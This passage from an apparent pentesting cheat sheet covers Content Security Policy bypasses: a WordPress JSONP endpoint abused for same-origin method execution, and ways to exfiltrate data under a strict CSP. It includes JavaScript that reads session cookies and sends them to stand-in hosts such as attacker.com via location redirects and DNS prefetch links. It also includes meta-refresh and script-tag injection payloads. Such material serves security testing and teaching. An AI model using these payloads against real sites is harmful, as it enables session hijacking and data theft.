 Moreover, **wordpress** has a **JSONP** endpoint in `/wp-json/wp/v2/users/1?_jsonp=data` that will **reflect** the **data** sent in the output (with the limitation of only letter, numbers and dots).

An attacker can abuse that endpoint to **generate a SOME attack** against WordPress and **embed** it inside `<script s`rc=`/wp-json/wp/v2/users/1?_jsonp=some_attack></script>` note that this **script** will be **loaded** because it's **allowed by 'self'**. Moreover, and because WordPress is installed, an attacker might abuse the **SOME attack** through the **vulnerable** **callback** endpoint that **bypasses the CSP** to give more privileges to a user, install a new plugin...\
For more information about how to perform this attack check [https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)

## CSP Exfiltration Bypasses

If there is a strict CSP that doesn't allow you to **interact with external servers**, there are some things you can always do to exfiltrate the information.

### Location

You could just update the location to send to the attacker's server the secret information:

```javascript
var sessionid = document.cookie.split('=')[1]+"."; 
document.location = "https://attacker.com/?" + sessionid;
```

### Meta tag

You could redirect by injecting a meta tag (this is just a redirect, this won't leak content)

```html
<meta http-equiv="refresh" content="1; http://attacker.com">
```

### DNS Prefetch

To load pages faster, browsers are going to pre-resolve hostnames into IP addresses and cache them for later usage.\
You can indicate a browser to pre-resolve a hostname with: `<link rel="dns-prefetch" href="something.com">`

You could abuse this behaviour to **exfiltrate sensitive information via DNS requests**:

```javascript
var sessionid = document.cookie.split('=')[1]+"."; 
var body = document.getElementsByTagName('body')[0];
body.innerHTML = body.innerHTML + "<link rel=\"dns-prefetch\" href=\"//" + sessionid + "attacker.ch\">";
```

Another way:

```javascript
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```
